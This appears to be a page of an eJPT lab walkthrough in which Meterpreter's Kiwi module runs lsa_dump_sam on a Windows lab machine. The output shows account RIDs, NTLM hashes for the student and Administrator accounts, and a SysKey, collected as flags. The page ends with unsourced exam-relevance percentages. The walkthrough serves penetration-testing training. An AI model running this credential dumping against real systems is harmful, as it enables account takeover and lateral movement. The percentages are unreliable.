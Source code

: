 
### **Step 6: Find More User Accounts**

**What We're Doing:** Using advanced Kiwi features to find additional user accounts and their credentials

#### **Command Used:**
```bash
lsa_dump_sam
```

**Note:** We run this again to see the complete output showing all users

#### **Complete User Information Found:**
```bash
RID  : 000001f5 (501)
User : Guest

RID  : 000001f7 (503)
User : DefaultAccount

RID  : 000001f8 (504)
User : WDAGUtilityAccount
  Hash NTLM: 58f8e0214224aebc2c5f82fb7cb47ca1

RID  : 000003f0 (1008)
User : student
  Hash NTLM: bd4ca1fbe028f3c5066467a7f6a73b0b
```

#### **🏆 Additional Credentials Discovered:**
- **Student Account:** Username = student
- **Student NTLM Hash:** bd4ca1fbe028f3c5066467a7f6a73b0b
- **WDAGUtilityAccount:** Special Windows Defender Application Guard account
- **Guest Account:** Standard Windows guest account (no password)

#### **Flags Found:**
- **Administrator NTLM Hash:** e3c61a68f1b89ee6c8ba9507378dc88d
- **Student User NTLM Hash:** bd4ca1fbe028f3c5066467a7f6a73b0b
- **SysKey:** 377af0de68bdc918d22c57a263d38326

---

## 🎯 eJPT Exam Success Guide

### **📊 How Important This Is for eJPT:**

Understanding the importance of Kiwi skills for passing the eJPT exam:

- **Post-Exploitation Tasks:** 60% of Windows-based scenarios require credential extraction
- **Password Hash Collection:** 75% of advanced exploitation questions
- **System Information Gathering:** 40% of enumeration requirements
- **Evidence Collection:** 85% of penetration test documentation needs
